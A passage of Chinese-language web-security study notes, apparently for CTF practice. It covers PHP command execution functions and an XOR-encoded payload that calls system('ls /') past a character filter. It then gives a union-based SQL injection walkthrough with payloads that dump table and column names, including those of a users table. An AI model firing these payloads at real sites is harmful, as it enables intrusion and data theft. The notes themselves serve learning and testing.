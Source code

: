 - ### PHP命令执行函数

  **[eval](https://www.php.net/manual/zh/function.eval.php)  、assert （代码级）**

  [**system**](https://www.php.net/manual/zh/function.system.php)**、passthru、exec（无回显）、shell_exec、``（系统命令级）**

- ### PHP反序列化

  **结构、魔术方法、pop链构造**

- ### 正则匹配

  **/[A-Za-z_$\\(\\)]+/**

  **嗨正则、AI**

- ### 异或绕过

  **system('ls /')**

  ```

  ('%0C%05%0C%08%05%0D'^'%7F%7C%7F%7C%60%60')("%0C%0C%00%00"^"%60%7F%20/");

  ```

  **验证一下**

  ```

  <?php

  echo ("\x0C\x0C\x00\x00"^"\x60\x7F\x20/");

  ```

- ## SQL注入

  **sqlmap、联合注入、报错注入、布尔盲注、时间盲注、宽字节注入、堆叠注入.......**

  **通常的sql语句是$sql="SELECT * FROM users WHERE id=' 1  ' LIMIT 0,1";**

- ### **联合注入流程：**

  #### **数字型，直接注，不需要注释符**

  ```sql

  id='1 判断，看报错分析符号闭合

  id=1' or 1=1 --+  //会把所有ID列出来

  id=1' order by 3 --+ //判断当前表的列数

  id=-1' union select 1,2,3 --+  //判断回显段

  id=-1' union select 1,2,database() --+ //查当前数据库

  id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+ //爆当前数据库的所有表

  id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' --+ //爆当前数据库users表的所有列
